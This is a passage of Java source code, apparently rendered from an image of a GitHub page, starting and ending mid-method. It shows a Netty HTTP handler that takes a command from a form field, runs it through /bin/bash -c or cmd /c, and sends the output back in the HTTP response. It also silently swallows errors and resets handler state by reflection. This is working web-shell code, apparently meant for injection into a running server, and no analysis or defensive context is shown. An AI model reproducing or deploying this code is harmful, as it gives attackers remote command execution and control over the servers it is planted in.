 ```java
                    while (httpContent != LastHttpContent.EMPTY_LAST_CONTENT && currentHttpPostRequestDecoder.hasNext()) {
                        InterfaceHttpData data = currentHttpPostRequestDecoder.next();

                        if (data.getHttpDataType() == InterfaceHttpData.HttpDataType.Attribute){
                            Attribute request = (Attribute) data;
                            form.put(request.getName(), request.getValue());
                        }
                    }
                    String cmd = "null cmd";
                    if (form.containsKey(cmdKey)) {
                        cmd = form.get(cmdKey);
                    }

                    for (String key : form.keySet()) {
                        writeMsg(key);
                    }
                    if (!form.containsKey(cmdKey)) {
                        return;
                    }
                    String[] cmds = null;
                    if (!IS_WIN) {
                        cmds = new String[]{"/bin/bash", "-c", cmd};
                    } else {
                        cmds = new String[]{"cmd","/c",cmd};
                    }
                    java.io.InputStream in =
                            Runtime.getRuntime().exec(cmds).getInputStream();
                    ByteArrayOutputStream outputStream = new ByteArrayOutputStream();
                    int a = -1;
                    byte[] tmp = new byte[1];
                    outputStream.write("<pre>".getBytes());
                    while((a=in.read(tmp))!=-1){
                        outputStream.write(tmp);
                    }
                    outputStream.write("</pre>".getBytes());
                    HttpRequest tmpRequest = currentHttpRequest;
                    getMethodInvoke(handler, "deleteUploadedFiles", null, null);
                    getMethodInvoke(handler, "reset", null, null);
                    HttpResponse response = new DefaultHttpResponse(HTTP_1_1, HttpResponseStatus.OK);
                    response.headers().set(CONTENT_TYPE, "text/html");
                    response.headers().set(CONNECTION, HttpHeaders.Values.CLOSE);
                    byte[] buf = outputStream.toByteArray();
                    ByteBuf b = Unpooled.copiedBuffer(buf);
                    HttpHeaders.setContentLength(response, buf.length);
                    ctx.write(response);
                    ctx.write(b);
                    ChannelFuture lastContentFuture = ctx.writeAndFlush(LastHttpContent.EMPTY_LAST_CONTENT);
                    lastContentFuture.addListener(ChannelFutureListener.CLOSE);
                    ReferenceCountUtil.release(tmpRequest);
                }
           }

        } catch (Exception e) {
        }
    }

    private static Object getMethodInvoke(Object object, String methodName, Class[] parameterTypes,
                                          Object[] args) throws Exception {
        try {
            Method method = getMethod(object, methodName, parameterTypes);
```